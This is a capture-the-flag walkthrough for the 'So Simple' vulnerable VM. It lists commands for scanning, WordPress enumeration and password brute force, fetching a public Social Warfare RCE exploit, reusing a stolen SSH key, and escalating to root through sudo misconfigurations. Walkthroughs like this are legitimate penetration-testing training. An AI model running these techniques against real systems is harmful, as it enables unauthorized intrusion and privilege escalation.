







# SoSimple Writeup w/o Metasploit

**Author:** Hunter Juhan

**Date:** January 21st, 2024

So Simple is a beginner-level vulnerable box created by @roelvb79. It offers valuable insights into the world of penetration testing, with a focus on understanding public exploit techniques often encountered in OSCP-like virtual machines. In this walkthrough, we will guide you through the steps to successfully exploit this VM.

## Reconnaissance

To begin, we need to gather information about the target system. We used Nmap to discover open ports and services running on the target.

```
sudo nmap -T4 -p- -A -oA sosimple 192.168.178.78
```

* **-T4**: sets the timing template to level 4, which increases the scanning speed while being moderately aggressive
* **-p-**: scans all 65,535 TCP ports
* **-A**: enables aggressive scanning options, including script scanning, version detection, and OS detection
* **-oA**: output all formats and store in file _sosimple_

We get back the following result showing that 2 ports are open

- Port 22: OPenSSH 8.2p1
- Port 80: Apache httpd 2.4.41



## Enumeration

We start by enumerating port 80. We visit the application, poke around, and analyze the source code of the web page. We do not find much.



Let’s do more enumeration on the web server. We run ffuf to enumerate directories.

```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -u http://192.168.178.78/FUZZ
```

* **-w**: specifies the wordlist file to be used for fuzzing
* **-u**: specify the target URL for fuzzing


Our next step is to find if there is a WordPress installation on the target. We use Wpscan to enumerate it.

```
wpscan --url http://192.168.178.78/wordpress/ --api-token * --enumerate p,u
```

* **--url**: specifies the target WordPress website's URL
* **--api-token**: provide an API token for authenticated scanning
* **--enumerate**: enumerate information related to plugins and users on the target WordPress site


 
While enumerating, we find a wp-admin panel and a user named "max." However, we do not have the password, so we proceed to bruteforce it.

```
wpscan --url http://192.168.178.78/wordpress/ --api-token * --enumerate u -P /usr/share/wordlists/rockyou.txt
```

* **--url**: specifies the target WordPress website's URL
* **--api-token**: provide an API token for authenticated scanning
* **--enumerate**: enumerate user accounts on the target WordPress site
* **-P**: specifies the path to a password list o perform a brute force attack on the WordPress site to gues passwords for the identified user accounts


During our exploration, we come across an outdated plugin named "Social Warfare." We make a note of this for later investigation.



## Gaining a Foothold

We discover a Remote Code Execution vulnerability for the outdated "Social Warfare" plugin on the Exploit-DB website.



We Google and find the GitHub page for a Proof of Concept (PoC) for the vulnerability.



We download the Python exploit from GitHub.

```
git clone https://github.com/hash3liZer/CVE-2019-9978.git
```


We create a payload.txt file containing a code snippet and host it on our own Python server.

```
python3 -m http.server 8080
```


Using a specific URL, we trigger the RCE vulnerability, executing our payload on the target system.


## Privilege Escalation

With initial access, we aim to escalate privileges to gain more control.

We explore Max's account and discover an SSH key with read permission.



We copy this private key to our local system and connect to Max's SSH session.

```
gedit id_rsa
chmod 600 id_rsa
ssh -i id_rsa max@192.168.178.78
```



Our investigation leads us to the sudoers file, which contains a binary allowing us to run services as another user, "steven."

```
sudo -l
```


We leverage this to escalate our privileges to Steven's account.

```
sudo -u steven service ../../bin/bash
```

Using `sudo -u steven`, we run commands as if we were logged in as "steven." When we execute the service command and specify `bin/bash` as the command, it runs with "steven's" privileges. This gives us access to the Bash shell as "steven."


Further analysis of the sudoers file reveals another opportunity. We find a script that could run as root without requiring a password.

```
sudo -l
```

Because that script didn't exist, we create a script in the /opt/tools directory and call the script `server-health.sh`.

```
#
!/bin/bash
bash
```

We change the permissions of the file and execute it as root, achieving a root shell.

```
sudo -u root /opt/tools/server-health.sh
```
